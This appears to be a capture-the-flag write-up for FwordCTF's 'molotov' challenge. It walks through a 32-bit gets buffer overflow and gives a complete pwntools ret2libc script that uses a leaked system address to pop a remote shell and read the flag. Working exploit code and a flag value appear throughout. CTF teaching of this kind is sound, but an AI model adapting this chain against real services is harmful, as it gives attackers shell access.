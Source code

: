 # Welcome Pwner

Chuck it in ghidra or your favourite decompiler/analyser - we see it prints the system address to us, then uses gets to read an input. This is a classic buffer overflow which we'll attack with ret2libc.

As it prints the libc address of system, we can simply use that to calculate the libc base. The binary is 32-bit, and it reads input into ebp-0x1c, giving 32 bytes of padding until return address overwrite. Then, we just send system + junk + /bin/sh address

Note that we don't know the remote libc - I used libc-database find to get the remote libc binary, which is `libc6_2.30-0ubuntu2_i386`

So: 1. Receive libc address 2. Calculate libc base 3. Build ret2libc system\("/bin/sh"\) chain 4. Pop shell, cat flag.txt

```python
from pwn import *
NUM_TO_RET = 0x1c + 4
padding = b'A'*NUM_TO_RET
e = ELF("./molotov")
p = e.process() if args.LOCAL else remote('54.210.217.206',1240)
libc = e.libc if args.LOCAL else ELF("/home/kali/Tools/libc-database/libs/libc6_2.30-0ubuntu2_i386/libc.so.6")
system = int(p.recvline(),16)
p.recvline()
libcbase = system - libc.symbols['system']
log.info(f"System address: {hex(system)}")
log.info(f"Libc base: {hex(libcbase)}")
libc.address = libcbase
chain = flat(libc.symbols['system'],libc.symbols['exit'],next(libc.search(b"/bin/sh\x00")))
p.sendline(padding + chain)
p.interactive()
```

## Flag: FwordCTF{good\_j0b\_pwn3r}

